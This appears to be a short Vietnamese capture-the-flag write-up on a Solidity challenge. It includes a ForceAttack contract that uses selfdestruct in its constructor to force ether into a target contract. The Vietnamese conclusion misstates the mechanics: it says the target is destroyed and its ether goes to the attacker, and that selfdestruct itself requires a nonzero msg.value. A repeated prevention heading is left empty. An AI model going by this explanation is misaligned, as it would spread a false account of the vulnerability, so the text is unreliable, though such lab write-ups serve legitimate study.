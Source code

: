 ### Kết luận
- Lỗ hổng: Kẻ tấn công có thể sử dụng hàm `selfdestruct` để tấn công vào hợp đồng có địa chỉ `muctieu`, điều này sẽ khiến cho hợp đồng bị hủy và toàn bộ ether của hợp dồng sẽ rơi vào tay của kẻ tấn công `msg.sender`.
- Cách phòng ngừa: Thêm `require` chỉ cho phép người `owner` của hợp dồng mới có thể sử dụng hàm `selfdestruct`, kiểm soát những người có thể gửi ether, không cho `selfdestruct` tùy ý.
- Một số lưu ý: Hàm `selfdestruct` yêu cầu `msg.value` phải > 0 nếu không sẽ không thực hiện.
- Cách phòng ngừa: 
### Contract tấn công
```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;
contract ForceAttack{
    constructor (address payable muctieu) payable { //Dia chi co the nhan Ether (payable)
        require(msg.value >0);
        selfdestruct(muctieu);
    }
}
```
### Contract
```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

contract Force { /*
                   MEOW ?
         /\_/\   /
    ____/ o o \
    /~____  =ø= /
    (______)__m_m)
                   */ }
```
